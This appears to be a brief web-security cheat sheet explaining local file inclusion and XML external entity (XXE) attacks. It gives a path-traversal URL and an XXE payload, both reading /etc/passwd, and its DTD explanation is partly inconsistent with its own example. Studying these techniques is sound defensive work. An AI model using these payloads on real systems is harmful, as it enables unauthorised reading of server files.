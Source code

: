 ### LFI (local file inclusion)

If you see a parameter you can try LFI on it.
```
http://127.0.0.1/?file=page.php
```
We can not try view a file on the system.
```
http://127.0.0.1/?file=../../../../../../etc/passwd
```

### XXE (XML External Entity)

This abuses features of XML parser/Data.

Let's look at the structure.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE file SYSTEM "file.dtd">
<file>
    <to>moon</to>
    <from>cake</from>
    <heading>food</heading>
    <body>XXE attack</body>
</file> 
```
XML document starts with 
```
<?xml version="1.0" encoding="UTF-8"?> 
```
The next part is called the DTD (Document Type Definition)
This defines the elements and attributes.

- !DOCTYPE note -  Defines a root element of the document named note
- !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
- !ELEMENT to - Defines the to element to be of type "#PCDATA"
- !ELEMENT from - Defines the from element to be of type "#PCDATA"
- !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
- !ELEMENT body - Defines the body element to be of type "#PCDATA"

We can abuse this to read a file on a system.
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
or change something
```
<!DOCTYPE replace [<!ENTITY food "cake"> ]>
 <foodInfo>
  <firstName>moon</firstName>
  <lastName>&food;</lastName>
 </foodInfo>
 ```
